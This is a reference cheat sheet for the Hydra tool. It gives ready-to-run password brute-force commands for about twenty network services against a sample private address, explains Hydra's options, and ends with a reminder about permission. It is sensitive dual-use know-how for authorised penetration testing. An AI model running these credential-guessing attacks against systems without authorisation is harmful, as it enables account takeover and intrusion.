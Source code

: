 # Hydra Commands

| **Protocol**         | **Command**                                                                                                                                                                       | **Description**                                                                                                                                                            |
|----------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **SSH**              | `hydra -l root -P passwords.txt ssh://192.168.1.1`                                                                                                                                | Brute-force SSH on `192.168.1.1` using `root` as the username and `passwords.txt` as the password list.                                                                   |
| **FTP**              | `hydra -L users.txt -P passwords.txt 192.168.1.1 ftp`                                                                                                                             | Brute-force FTP login on `192.168.1.1` using `users.txt` as the username list and `passwords.txt` as the password list.                                                   |
| **HTTP Basic Auth**  | `hydra -L users.txt -P passwords.txt 192.168.1.1 http-get /admin`                                                                                                                 | Brute-force HTTP basic authentication on `192.168.1.1/admin` endpoint with username list `users.txt` and password list `passwords.txt`.                                    |
| **HTTP Form Auth**   | `hydra -L users.txt -P passwords.txt 192.168.1.1 http-form-post "/login.php:user=^USER^&pass=^PASS^:Invalid password"`                                                            | Brute-force HTTP form authentication on `/login.php`. Replaces `^USER^` and `^PASS^` in the form fields, stopping on "Invalid password" message.                          |
| **HTTPS Form Auth**  | `hydra -L users.txt -P passwords.txt 192.168.1.1 https-form-post "/secure_login:user=^USER^&pass=^PASS^:Invalid login"`                                                           | Brute-force HTTPS form authentication on `/secure_login`, using `^USER^` and `^PASS^` placeholders, stopping when "Invalid login" is returned.                            |
| **SMTP**             | `hydra -L users.txt -P passwords.txt smtp://192.168.1.1 -s 587`                                                                                                                   | Brute-force SMTP on `192.168.1.1` over port `587`, using `users.txt` and `passwords.txt` files.                                                                           |
| **POP3**             | `hydra -L users.txt -P passwords.txt pop3://192.168.1.1`                                                                                                                          | Brute-force POP3 on `192.168.1.1`, using `users.txt` as username list and `passwords.txt` as password list.                                                               |
| **IMAP**             | `hydra -L users.txt -P passwords.txt imap://192.168.1.1`                                                                                                                          | Brute-force IMAP on `192.168.1.1`, testing credentials with `users.txt` and `passwords.txt`.                                                                              |
| **RDP**              | `hydra -L users.txt -P passwords.txt rdp://192.168.1.1`                                                                                                                           | Brute-force RDP on `192.168.1.1` using the specified username and password lists.                                                                                         |
| **MySQL**            | `hydra -L users.txt -P passwords.txt 192.168.1.1 mysql`                                                                                                                           | Brute-force MySQL on `192.168.1.1` with username list `users.txt` and password list `passwords.txt`.                                                                      |
| **PostgreSQL**       | `hydra -L users.txt -P passwords.txt 192.168.1.1 postgres`                                                                                                                        | Brute-force PostgreSQL on `192.168.1.1`, testing credentials from `users.txt` and `passwords.txt`.                                                                        |
| **Telnet**           | `hydra -L users.txt -P passwords.txt 192.168.1.1 telnet`                                                                                                                          | Brute-force Telnet on `192.168.1.1`, using specified username and password lists.                                                                                         |
| **VNC**              | `hydra -P passwords.txt -s 5900 192.168.1.1 vnc`                                                                                                                                  | Brute-force VNC on `192.168.1.1` using port `5900` and a password list (`passwords.txt`).                                                                                 |
| **Redis**            | `hydra -P passwords.txt redis://192.168.1.1`                                                                                                                                      | Brute-force Redis on `192.168.1.1` with a password list. Redis commonly does not require usernames.                                                                       |
| **MSSQL**            | `hydra -L users.txt -P passwords.txt 192.168.1.1 mssql`                                                                                                                           | Brute-force MSSQL (Microsoft SQL) on `192.168.1.1`, using `users.txt` and `passwords.txt` lists.                                                                          |
| **SNMP**             | `hydra -P community_strings.txt 192.168.1.1 snmp`                                                                                                                                 | Brute-force SNMP (Simple Network Management Protocol) on `192.168.1.1` using community strings from `community_strings.txt`.                                              |
| **LDAP**             | `hydra -L users.txt -P passwords.txt ldap://192.168.1.1`                                                                                                                          | Brute-force LDAP on `192.168.1.1` with username and password lists.                                                                                                       |
| **SMB (Windows)**    | `hydra -L users.txt -P passwords.txt 192.168.1.1 smb`                                                                                                                             | Brute-force SMB on `192.168.1.1`, typically for Windows shares.                                                                                                           |
| **Oracle**           | `hydra -L users.txt -P passwords.txt 192.168.1.1 oracle`                                                                                                                          | Brute-force Oracle database on `192.168.1.1`, using username and password lists.                                                                                          |
| **Rlogin**           | `hydra -L users.txt -P passwords.txt 192.168.1.1 rlogin`                                                                                                                          | Brute-force Rlogin on `192.168.1.1`, using `users.txt` and `passwords.txt`.                                                                                               |
| **Cisco**            | `hydra -P passwords.txt cisco://192.168.1.1`                                                                                                                                      | Brute-force Cisco router login on `192.168.1.1` with a password list (Cisco often does not require usernames).                                                            |
| **SIP (VoIP)**       | `hydra -L users.txt -P passwords.txt 192.168.1.1 sip`                                                                                                                             | Brute-force SIP (Session Initiation Protocol) on `192.168.1.1`, used for VoIP servers.                                                                                    |

---

### **Common Hydra Options Explained**

| **Option** | **Description**                                                                                                      |
|------------|----------------------------------------------------------------------------------------------------------------------|
| `-l`       | Specifies a single username to use.                                                                                 |
| `-L`       | Specifies a file containing a list of usernames to try.                                                             |
| `-p`       | Specifies a single password to use.                                                                                 |
| `-P`       | Specifies a file containing a list of passwords to try.                                                             |
| `-e nsr`   | `n` for null password, `s` for same username as password, `r` for reverse username.                                 |
| `-o`       | Saves successful attempts to the specified file.                                                                    |
| `-f`       | Stops Hydra after the first valid login is found.                                                                   |
| `-V`       | Shows each attempt (verbose mode).                                                                                  |
| `-vV`      | Very verbose, shows every attempt.                                                                                  |
| `-s`       | Specifies the port number to use (useful for non-standard ports).                                                   |
| `-t`       | Sets the number of parallel tasks (default is 16).                                                                  |
| `-w`       | Sets the timeout for each login attempt.                                                                            |
| `-u`       | Ensures each username is only tried once, regardless of password combinations.                                      |

This table and explanation provide a comprehensive reference for Hydra commands across different services, making it an essential cheat sheet for anyone performing brute-force testing. Always ensure you have permission before using these commands on any network or service.
